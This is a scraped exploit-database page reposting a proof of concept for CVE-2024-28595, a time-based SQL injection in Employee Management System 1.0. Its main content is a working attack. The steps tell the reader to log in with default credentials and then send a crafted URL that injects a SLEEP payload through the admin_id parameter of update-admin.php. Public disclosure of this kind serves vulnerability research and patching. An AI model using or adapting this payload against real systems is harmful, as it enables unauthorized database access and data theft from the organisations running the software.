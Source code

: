 ```yaml
---
title: Employee Management System 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177681&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-21
fetch_date: 2025-10-04T12:09:10.484967
---
```


# Employee Management System 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Employee Management System 1.0 SQL Injection CVE-2024-28595

2024-03-20 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177681
# Exploit Title: SQL Injection vulnerability in Employee Management System.
# Date: 20-03-2024
# Exploit Author: Shubham Pandey
# Vendor Homepage: https://www.sourcecodester.com
# Software Link:
https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html
# Version: 1.0
# Tested on: Windows, Linux
# CVE : CVE-2024-28595
# Description: SQL Injection vulnerability in Employee Management System
v1.0 allows attackers to run arbitrary SQL commands via the admin_id
parameter in update-admin.php.
# POC:
1. Here we go to : http://127.0.0.1/taskmatic/index.php
2. Now login with default Username and Password.
3. Visit the URL:
http://127.0.0.1/taskmatic/update-admin.php?admin_id=3'||(SELECT 0x697a7843
WHERE 5649=5649 AND (SELECT 2097 FROM (SELECT(SLEEP(5)))JzJH))||'
4. Page will load for 5 seconds because of time-based sql injection
# Reference:
https://github.com/shubham-s-pandey/CVE_POC/blob/main/CVE-2024-28595.md
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)